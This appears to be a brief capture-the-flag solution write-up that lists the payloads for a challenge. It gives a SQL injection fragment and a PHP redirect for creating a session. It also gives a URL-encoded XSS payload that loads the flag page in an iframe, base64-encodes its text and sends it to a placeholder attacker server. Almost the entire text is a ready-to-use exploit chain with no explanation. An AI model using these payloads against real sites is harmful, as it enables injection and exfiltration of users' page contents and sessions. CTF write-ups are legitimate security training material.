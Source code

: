 **Short Solution:** 
 - For SQLI: `lcase('inKypinKy') as id from dual`
 - Creating UID: Host a webpage that has the following php code `header("location:http://web/user.php?session=1111-22222-1234&sub=submit%22);`
 - Retrieving Flag: Host a webpage that has the following php code `header("location:http://web/flag.php?session%3D%22%3E%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22<your_server>%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit%22%29%3B`
